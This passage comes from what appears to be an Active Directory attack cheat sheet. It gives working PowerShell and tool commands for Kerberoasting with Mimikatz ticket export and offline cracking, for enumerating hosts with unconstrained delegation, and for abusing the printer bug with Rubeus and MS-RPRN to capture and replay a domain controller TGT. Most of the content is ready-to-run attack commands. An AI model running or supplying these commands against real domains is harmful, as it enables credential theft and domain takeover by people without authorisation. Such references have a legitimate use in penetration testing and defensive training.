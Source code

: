 ![Main Logo](images/Example_SPN01.png 'Example03')

**4. Export all tickets and Bruteforce the password:**
```powershell
# Export all tickets using Mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'
# Brute force the password with tgsrepcrack
python.exe .\kerberoast\tgsrepcrack.py .\kerberoast\wordlists.txt '.\3-40a10000-user01@ops~whatever1-CORP.CORPORATE.LOCAL.kirbi'
```

### Kerberos Delegation

### Unconstrained Delegation

**1. With Powerview:**
```powershell
# Search for domain computers with unconstrained delegation enabled
Get-NetComputer -UnConstrained
# Search for domain computers with unconstrained delegation enabled from property name
Get-NetComputer -Unconstrained | select -ExpandProperty name
# Search for domain computers with unconstrained delegation enabled from property dnshostname
Get-NetComputer -Unconstrained | select -ExpandProperty dnshostname
```
**2. With AD Module:**
```powershell
# Search for domain computers with unconstrained delegation enabled
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

### Printer Bug

#### Pre-requisites
#### Rubeus:
```powershell
.\Rubeus.exe
```
Link: [Rubeus](https://github.com/GhostPack/Rubeus)
#### Ms-rprn:
```powershell
.\MS-RPRN.exe
```
Link: [MS-RPRN](https://github.com/leechristensen/SpoolSample)

**1. Capture the TGT:**
```powershell
# Start monitoring for any authentication
.\Rubeus.exe monitor /interval:5 /nowrap
```
**2. Run MS-RPRN.exe:**
```powershell
# Run MS-RPRN.exe to abuse the printer bug
.\MS-RPRN.exe \\dcorp.corp.corporate.local \\dcorp-appsrv.corp.corporate.local
```
**3. Copy the base64 encoded TGT, remove extra spaces:**
```powershell
# Use the ticket
.\Rubeus.exe ptt /ticket:<TGTofCorp>
```